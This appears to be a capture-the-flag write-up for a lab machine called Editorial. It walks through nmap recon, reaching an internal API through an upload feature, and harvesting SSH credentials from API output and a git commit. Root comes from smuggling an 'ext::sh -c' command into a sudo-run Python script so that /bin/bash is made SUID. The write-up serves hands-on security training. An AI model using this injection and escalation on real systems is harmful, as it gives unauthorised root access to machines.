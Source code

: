 # Editorial Write-up

<img src="https://labs.hackthebox.com/storage/avatars/a466db5ce4f7aaea98f588d1cb71a0aa.png" width="200" height="200">

## Recon 

### Port enumeration with Nmap

`nmap -sC -sV -p- 10.10.11.20`

Add domain name to `/etc/hosts`

    sudo echo "10.10.11.20 editorial.htb" | sudo tee -a /etc/hosts

`editorial.htb`

![image](https://github.com/zer00d4y/writeups/assets/128820441/07fdd17a-f5fe-47b2-b023-18ca896b2502)

`editorial.htb/upload`

![image](https://github.com/zer00d4y/writeups/assets/128820441/41e07ae5-ffed-4142-8dda-129aabe270ca)

![image](https://github.com/zer00d4y/writeups/assets/128820441/c4d5cf44-7914-4f2c-ab85-042f8fec1cf3)

![image](https://github.com/zer00d4y/writeups/assets/128820441/f756318a-78a9-4d6c-9df6-b2b89f9b9403)

`http://127.0.0.1:5000/`

![image](https://github.com/zer00d4y/writeups/assets/128820441/0216112e-e857-48ce-ad81-2ebc7ddecb6a)

static/uploads/d93ee52f-75f2-4273-b05c-f4932c366478

![image](https://github.com/zer00d4y/writeups/assets/128820441/d613d58e-5577-43ba-85ce-bea48a5ba8b9)

    {"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}

/api/latest/metadata/messages/authors

![image](https://github.com/zer00d4y/writeups/assets/128820441/52e8bd7a-5202-4c35-8260-4c477bed1700)

static/uploads/d1166303-dbfa-496d-b260-3f45d9b66c9a

![image](https://github.com/zer00d4y/writeups/assets/128820441/28f92595-3fe8-41cd-af0e-7441dcc57a18)

SSH credentials

`dev:dev080217_devAPI!@`

Get the user flag!

![image](https://github.com/zer00d4y/writeups/assets/128820441/a7e04a02-398a-4728-a9a2-03d4762f1c93)

## Privilege Escalation

![image](https://github.com/zer00d4y/writeups/assets/128820441/3ad2f8e3-b7e9-425b-8604-db6ca4fdcf5b)

![image](https://github.com/zer00d4y/writeups/assets/128820441/c8fe42b2-ef4e-4ed7-a9f9-2211a53b491e)

git show 1e84a036b2f33c59e2390730699a488c65643d28

    ...
    +        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
    ...

SSH credentials for `Prod`

`prod:080217_Producti0n_2023!@`

![image](https://github.com/zer00d4y/writeups/assets/128820441/16e93836-bbc6-4331-a261-0026caa67669)

    echo '#!/bin/bash' > /tmp/exploit.sh 
    
    echo 'chmod u+s /bin/bash' >> /tmp/exploit.sh  
      
    sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c '/tmp/exploit.sh'"  
      
    ls -l /bin/bash

![image](https://github.com/zer00d4y/writeups/assets/128820441/74d0eb0e-1475-4172-abd1-3bea6ca23bac)

Get the root flag!

![image](https://github.com/zer00d4y/writeups/assets/128820441/c7c2778a-c835-49dd-9232-acb92554cb2f)

